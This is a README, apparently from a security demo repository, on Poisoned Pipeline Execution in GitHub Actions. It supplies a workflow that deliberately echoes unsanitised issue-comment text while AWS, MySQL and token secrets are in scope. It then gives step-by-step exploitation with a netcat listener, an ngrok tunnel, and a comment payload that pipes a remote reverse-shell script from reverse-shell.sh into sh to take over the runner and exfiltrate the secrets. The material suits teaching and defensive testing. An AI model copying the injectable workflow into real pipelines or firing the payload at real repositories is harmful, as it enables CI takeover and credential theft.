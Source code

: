 # Github Actions: Poisoned Pipeline Execution


This folder showcases a GitHub Actions vulnerable to Poisoned Pipeline Execution (PPE). 

### Demo Objective 

The objective of this demo is to illustrate how an attacker can exploit a vulnerable GitHub Action setup to:

- Execute remote code.

- Exfiltrate sensitive secrets from the GitHub environment.

## Prerequisites 

To run this demo, ensure you have:

- Access to a GitHub repository with GitHub Actions enabled.

- Permission to modify GitHub Actions workflows.

- Awareness of the ethical implications of testing in a controlled environment.

## Instructions 
 
1. **Setup** : Create a new Github repository.
 
2. **Configuration** : Inside the new repo, create the `.github/workflows` repo.
 
3. **Execute** : Inside the workflow repo create a yaml file called `vulnerable.yaml` and copy the following inside:  
```yaml
name: command-injection-demo
on:
  issue_comment:
    types: [created]
jobs:
  auto-manage-new-issue:
    runs-on: ubuntu-latest
    steps:
      - name: Retrieve Issue Information
        run: |
          echo ${{ github.event.comment.body }}
        env:
          AWS_API_KEY: ${{ secrets.AWS_API_KEY }}
          MYSQL_CONNECTION_STRING: ${{ secrets.MYSQL_CONNECTION_STRING }}
          GENERIC_TOKEN: ${{ secrets.GENERIC_TOKEN }}
```  

This GitHub Action workflow (`command-injection-demo`) triggers on the creation of issue comments.  
Upon activation, it retrieves the body of the comment (`${{ github.event.comment.body }}`) and echoes it directly within the workflow execution environment.  
The vulnerability lies in the lack of input sanitization for `${{ github.event.comment.body }}`.  
Since the workflow echoes this variable without any validation or sanitization, an attacker can potentially inject arbitrary operating system (OS) commands into the workflow.  
By crafting a malicious comment, an attacker could exploit this vulnerability to execute unauthorized commands within the GitHub Actions environment and exfiltrate the secrets (`AWS_API_KEY`, `MYSQL_CONNECTION_STRING` and `GENERIC_TOKEN`).  


 
4. **Exploit** : Create a new issue and add a new comment to it, see what happens:  

![legit-comment](./images/legit_issue_comment.png)  
![legit-action-run](./images/legit_action_run.png)   
 
As you can see the action was triggered by our comment in printed out the body of the comment.  

At this point we can proceed to poison the execution 😈

In order to do that we will use [*ngrok*](https://ngrok.com/) (you can also use [*Cloudflare Tunnels*](https://www.cloudflare.com/products/tunnel/) or whatever tool fit the need to seamlessy expose a local service to the internet).  


Open a new nectcat local listener:  
```sh
nc -lnvp 1337
```  

Forward an ngrok tcp tunnel on the same port: 

```sh
ngrok tcp 1337
```  

Now, retrieve the `Forwarding` address (DNS name) from ngrok output and with that we can construct our malicious payload (you can also use ngrok public IP instead of the dns name).  

Our payload will be:  
```console
"" && sh -c 'curl https://reverse-shell.sh/<NGROK-IP-OR-DNS-NAME>:<NGROK-PUBLIC-PORT> | sh'
```  


This payload will be the body of our new malicious comment on the GitHub issue:  
![payload](./images/ppe_payload.png)  

When we leave this comment, it will trigger the GitHub Action, and that payload will be injected directly into the runner (agent) of the action and executed, thereby opening a reverse shell within the remote environment of the pipeline.    
From there, we will have the ability to exfiltrate secrets.    
Watch a demonstration of the entire workflow in the following video:  

<video width="850" controls>
  <source src="./images/gh_ppe.mp4" type="video/mp4">
</video>  






